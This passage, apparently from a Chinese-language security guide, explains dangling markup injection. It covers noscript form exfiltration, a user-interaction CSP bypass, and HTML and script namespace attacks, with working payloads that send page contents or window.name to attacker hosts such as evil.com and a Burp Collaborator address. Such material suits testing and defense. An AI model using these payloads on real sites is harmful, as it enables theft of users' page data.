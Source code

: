 `<noscript></noscript>` 是一个标签，如果浏览器不支持JavaScript，其内容将被解释执行（您可以在Chrome中启用/禁用JavaScript，访问[chrome://settings/content/javascript](chrome://settings/content/javascript)）。

一种将网页内容从注入点到底部导出到攻击者控制的站点的方法是注入以下内容：
```markup
<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
```
### 通过用户交互绕过CSP

从这个[PortSwigger的研究](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)中，你可以了解到即使在**最严格的CSP限制**环境下，仍然可以通过一些**用户交互**来**泄露数据**。在这个例子中，我们将使用以下有效载荷：
```markup
<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<base target='
```
请注意，您将要求**受害者**点击一个链接，该链接将将其重定向到您控制的**有效负载**。还请注意，**`base`**标签中的**`target`**属性将包含**HTML内容**，直到下一个单引号。\
这将导致如果点击链接，**`window.name`**的值将是所有的**HTML内容**。因此，由于您控制着受害者通过点击链接访问的页面，您可以访问**`window.name`**并**窃取**这些数据：
```markup
<script>
if(window.name) {
new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```
### 误导性脚本工作流1 - HTML命名空间攻击

在HTML中插入一个新的带有id的标签，它将覆盖下一个标签，并且具有一个会影响脚本流程的值。在这个例子中，您可以选择与谁共享信息：
```markup
<input type='hidden' id='share_with' value='fredmbogo'>     ← Injected markup
...
Share this status update with:                              ← Legitimate optional element of a dialog
<input id='share_with' value=''>

...

function submit_status_update() {
...
request.share_with = document.getElementById('share_with').value;
...
}
```
### 误导性脚本工作流2 - 脚本命名空间攻击

通过插入HTML标签在javascript命名空间中创建变量。然后，这个变量将影响应用程序的流程：
```markup
<img id='is_public'>                                        ← Injected markup

...

// Legitimate application code follows

function retrieve_acls() {
...
if (response.access_mode == AM_PUBLIC)                    ← The subsequent assignment fails in IE
is_public = true;
else
is_public = false;
}

function submit_new_acls() {
...
if (is_public) request.access_mode = AM_PUBLIC;           ← Condition always evaluates to true
```